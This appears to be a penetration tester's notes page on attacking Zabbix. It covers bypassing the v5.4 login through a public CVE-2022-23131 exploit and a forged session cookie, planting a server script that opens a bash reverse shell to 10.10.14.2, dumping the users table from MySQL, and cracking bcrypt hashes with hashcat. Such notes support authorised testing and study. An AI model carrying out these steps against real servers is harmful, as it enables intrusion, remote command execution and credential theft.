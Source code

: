 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Zabbix Server Configurations</summary>

`cat /usr/local/etc/zabbix_server.conf` & removing commented out lines:

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Connecting to MySQL DB for zabbix

```
mysql -h 127.0.0.1 -P 3306 -u zabbix  -p'rD...' zabbix
show databases;
use zabbix;
show tables;
select * from users;
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cracking Zabbix's bcrypt hash:

```bash
hashcat -m 3200 hash.txt rockyou.txt
```

</details>
